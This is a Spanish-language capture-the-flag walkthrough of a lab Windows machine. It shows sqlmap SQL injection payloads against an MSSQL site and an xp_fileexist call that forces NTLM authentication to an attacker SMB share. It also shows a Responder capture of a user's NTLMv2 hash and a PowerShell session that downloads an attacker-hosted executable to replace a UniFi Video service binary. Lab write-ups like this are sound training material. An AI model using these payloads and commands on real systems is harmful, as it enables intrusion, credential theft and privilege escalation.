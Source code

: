 ``` text
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: ProductSubCategoryId=18 AND 9242=9242

    Type: error-based
    Title: Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)
    Payload: ProductSubCategoryId=18 AND 6303 IN (SELECT (CHAR(113)+CHAR(113)+CHAR(113)+CHAR(112)+CHAR(113)+(SELECT (CASE WHEN (6303=6303) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(112)+CHAR(98)+CHAR(113)+CHAR(113)))

    Type: inline query
    Title: Microsoft SQL Server/Sybase inline queries
    Payload: ProductSubCategoryId=(SELECT CHAR(113)+CHAR(113)+CHAR(113)+CHAR(112)+CHAR(113)+(SELECT (CASE WHEN (7727=7727) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(112)+CHAR(98)+CHAR(113)+CHAR(113))

    Type: stacked queries
    Title: Microsoft SQL Server/Sybase stacked queries (comment)
    Payload: ProductSubCategoryId=18;WAITFOR DELAY '0:0:5'--

    Type: AND/OR time-based blind
    Title: Microsoft SQL Server/Sybase time-based blind (IF)
    Payload: ProductSubCategoryId=18 WAITFOR DELAY '0:0:5'
---
[14:02:53] [INFO] the back-end DBMS is Microsoft SQL Server
web server operating system: Windows 10 or 2016
web application technology: ASP.NET 4.0.30319, ASP.NET, Microsoft IIS 10.0
back-end DBMS: Microsoft SQL Server 2016
[14:02:53] [INFO] calling Microsoft SQL Server shell. To quit type 'x' or 'q' and press ENTER
sql-shell> exec master..xp_fileexist '\\10.10.13.121\miau'-- -
exec master..xp_fileexist '\\10.10.13.121\miau'-- -:    'NULL'

```

En nuestra consola de responder veremos:

``` text
[+] Listening for events...
[SMB] NTLMv2-SSP Client   : 10.10.10.104
[SMB] NTLMv2-SSP Username : GIDDY\Stacy
[SMB] NTLMv2-SSP Hash     : Stacy::GIDDY:1122334455667788:B9F9548A74894D13A0FC9DCCAD19ED75:0101000000000000300341DE69C5D401E59EA796893B59570000000002000A0053004D0042003100320001000A0053004D0042003100320004000A0053004D0042003100320003000A0053004D0042003100320005000A0053004D004200310032000800300030000000000000000000000000300000E520622AF481D040F54B36E7D48F871AAABD6B2FEF077311B50C0859DD35C8A90A001000000000000000000000000000000000000900220063006900660073002F00310030002E00310030002E00310033002E003100320031000000000000000000
[SMB] Requested Share     : \\10.10.13.121\IPC$
[*] Skipping previously captured hash for GIDDY\Stacy
[SMB] Requested Share     : \\10.10.13.121\TEST
```

Yei, ya tenemos el hash del usuario stacy. Ahora pasemos a romper la hash.

# hashcat


[10.10.10.104]: PS C:\Users\Stacy\Documents> ls
[10.10.10.104]: PS C:\Users\Stacy> cd c:\programdata\unifi-video\
[10.10.10.104]: PS C:\programdata\unifi-video> dir
[10.10.10.104]: PS C:\programdata\unifi-video> cat .\data\system.properties
[10.10.10.104]: PS C:\programdata\unifi-video> Get-ChildItem -recurse HKLM:\SYSTEM\CurrentControlSet\Services | findstr -i "unifi"
[10.10.10.104]: PS C:\programdata\unifi-video>
[10.10.10.104]: PS C:\programdata\unifi-video> wget http://10.10.13.121:4001/r.exe -O taskkill.exe
[10.10.10.104]: PS C:\programdata\unifi-video> stop-service UniFiVideoService